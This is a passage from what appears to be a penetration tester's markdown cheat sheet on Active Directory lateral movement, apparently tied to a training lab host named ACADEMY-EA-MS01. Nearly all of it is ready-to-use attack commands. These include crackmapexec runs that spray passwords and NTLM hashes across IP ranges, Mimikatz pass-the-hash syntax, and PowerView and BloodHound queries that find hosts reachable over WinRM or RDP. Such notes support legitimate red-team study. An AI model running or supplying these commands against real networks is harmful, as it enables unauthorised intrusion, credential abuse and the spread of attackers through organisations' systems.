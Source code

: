 > Note: To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.

This is a common way to retrieve tickets from a computer. Another advantage of abusing Kerberos tickets is the ability to forge our own tickets. Let's see how we can do this using the OverPass the Hash or Pass the Key technique.

* * *

# Lateral Movement
## Credentials/ Pass The Hash
### Validating the Credentials
{ldap,mssql,smb,ssh,winrm}
```bash
$ crackmapexec <protocol> <ip_range> -u <user> -p <password> -d <domain>
$ crackmapexec <protocol> <ip_range> -u <user> -H <hash> -d <domain>

$ crackmapexec <protocol> <ip_range> -u <user> -p <password> --local-auth
```

### Mimikatz
```
> kerberos::hash /password:lucky7

> mimikatz.exe
# privilege::debug 
# sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
```

### SMB
[LateralMovement](../Services/SMB.md#remote-code-execution)

### WinRM
**Enumerating the Remote Management Users Group**
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

**Using the Cypher Query in BloodHound**
```powershell
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

[WinRM](../Services/WINRM.md#connecting)

### RDP
**Enumerating the Remote Desktop Users Group**
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
